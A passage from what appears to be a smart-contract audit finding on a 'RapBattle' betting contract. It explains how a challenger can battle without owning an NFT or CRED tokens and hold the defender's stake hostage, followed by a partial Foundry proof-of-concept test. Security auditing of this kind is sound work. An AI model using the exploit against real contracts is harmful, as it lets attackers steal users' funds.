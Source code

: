 ## Impact

The challenger can cheat the system and is in an unfair advantage. Having a zero balance of `CRED`, the challenger does not actually risk any funds when entering a battle, hence cannot lose. Since the defender has no option to withdraw from the battle once entered on the stage, the challenger can keep the defender "hostage" and keep battling it until chance turns to the challenger's favor so that the challenger wins.

Consider the following scenario:
1. Defender calls `RapBattle::goOnStageOrBattle`, and submits (1) the ID of one of its (not staked) rapper NFTs and (2) some amount of its `CRED` balance as a bet.
2. Defender's NFT and amount of `CRED` tokens submitted to the battle are transferred to `RapBattle`.
3. Challenger calls `RapBattle::goOnStageOrBattle`, but submits the ID of an NFT that he does not actually own, and submits the same bet amount as the defender without actually having any balance of `CRED`.
3. Assuming that the defender wins the battle, the challenger cannot pay up since it has a zero balance of `CRED`. The transaction (where the challenger entered the battle) reverts. Defender's NFT and bet is stuck in the `RapBattle` contract.
4. Challenger enters the battle again, the same way as in point 3.
5. Assuming that this time the challenger wins the battle, the defender's bet amount is transferred to the challenger.
6. Defender's NFT is finally transferred back to the defender.

## Proof of Code

Insert the following piece of code in `OneShotTest.t.sol`:

```javascript

    function test_challengerCanBattleWithoutHavingAnNftOrCredTokens() public {
        address defender = makeAddr("defender");
        address challenger2 = makeAddr("challenger2");

        // defender mints, stakes for 4 days, unstakes, then goes on stage
        vm.startPrank(defender);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);
        vm.warp(4 days + 1); // with this, defender wins if run on anvil
        streets.unstake(0);
        uint256 defenderInitialBalance = cred.balanceOf(defender);
        assert(defenderInitialBalance == 4);
        uint256 credBet = defenderInitialBalance; // bets his whole balance
        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), credBet);
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        // challenger battles without having an NFT and cred tokens
        vm.startPrank(challenger2);
        assert(cred.balanceOf(challenger2) == 0);
        assert(oneShot.ownerOf(0) != challenger2);
        vm.recordLogs();
        vm.expectRevert();
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        // assertions and logs after 1st round
        Vm.Log[] memory entries = vm.getRecordedLogs(); 
        address winner = address(uint160(uint256(entries[0].topics[2])));
        assertEq(winner, defender);
        console.log("Winner round 1: ", winner);
        // defender's credbet and NFT is stuck in the rapBattle contract...
```